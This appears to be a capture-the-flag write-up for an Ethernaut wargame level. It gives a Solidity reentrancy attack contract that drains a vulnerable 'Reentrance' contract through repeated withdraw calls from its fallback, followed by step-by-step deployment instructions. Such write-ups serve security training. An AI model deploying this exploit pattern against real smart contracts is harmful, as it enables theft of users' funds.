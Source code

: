```shell
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import './Reentrance.sol';

contract ReentrancyAttack {
    Reentrance victim;
    uint256 public amount = 0.001 ether;

    constructor(address payable _victimAddress) public payable {
        victim = Reentrance(_victimAddress);
    }

    function donateToVictim() public {
        victim.donate.value(amount).gas(4000000)(address(this));
    }

    function withdrawFromVictim() external {
        victim.withdraw(amount);
    }

    fallback() external payable {
        if(address(victim).balance != 0) {
            victim.withdraw(amount);
        }
    }
}
```

## Hack:

Step1:

Deploy w/ ethernaut contract instance address as constructor arg.
Ensure to deploy w/ value of 1000000000000000 wei

Step2:

First donate to victim contract to satasfy withdraw req's

Step3:

Then withdraw from victim -> this will call fallback -> which will recurssively call withdrawl in a preditory way.